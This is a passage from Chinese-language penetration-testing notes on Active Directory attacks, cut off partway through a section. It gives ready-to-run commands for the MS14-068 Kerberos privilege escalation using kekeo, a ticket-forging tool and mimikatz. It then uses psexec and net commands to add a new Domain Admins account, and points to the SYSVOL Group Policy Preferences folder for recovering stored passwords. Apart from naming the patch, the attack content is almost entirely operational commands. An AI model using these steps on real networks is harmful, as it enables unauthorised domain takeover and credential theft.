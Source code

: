 主机存活探测

```
和上面一样
```

### 获取域控

#### ms14-068

把普通域用户提升到域控权限，补丁：KB3011780

方式一、

https://github.com/gentilkiwi/kekeo

```
kekeo.exe "exploit::ms14068 /domain:test.com  /user:username /password:password /ptt" "exit"
```

方式二、

mimikatz，这时候并不需要管理员权限。

ms14-068：https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068

```
whoami /user   #获取sid
ms14-068.exe -u [域用户]@[所在域] -s [域用户SID] -p [域用户密码] -d [域控地址]     #制作凭证
kerberos::purge    #清除原有凭证
mimikatz.exe "kerberos::ptc c:[上面的凭证]" exit   //导入新的凭证
```

可以在`msf`中的`meterpreter`中直接使用

![image-20210110155155661](C:\Users\Rainbow\AppData\Roaming\Typora\typora-user-images\image-20210110155155661.png) 

使用psexec远程连接即可

![image-20210110172341623](C:\Users\Rainbow\AppData\Roaming\Typora\typora-user-images\image-20210110172341623.png)

就可以直接添加域管理员

```
net user username password /add /domain
net group "Domain admins" username /add /domain
```

#### GPP

 **存在的意义：**在比较大一点的环境中，我们会经常遇到这样的情况，由于电脑的批次不一样，或IT人员流动的问题，造成电脑的本地管理员密码不一致，当我们需要登录到本地管理员的时候，往往会不知道本地管理员密码，虽然我们可以通过进PE的办法破解密码，但如果电脑比较多，那么这将是一个讨厌的工作。如果是域环境，我们可以组策略的方式批量修改计算机的本地管理员密码。

**利用：**实质上就是一种信息收集的方式，可能存在密码重用

直接访问`\\king.com\SYSVOL\king.com\Policies\{0FD0DF94-3629-4ECA-B858-6F0C60B3A821}\User\Preferences\Groups`

使用脚本解密：
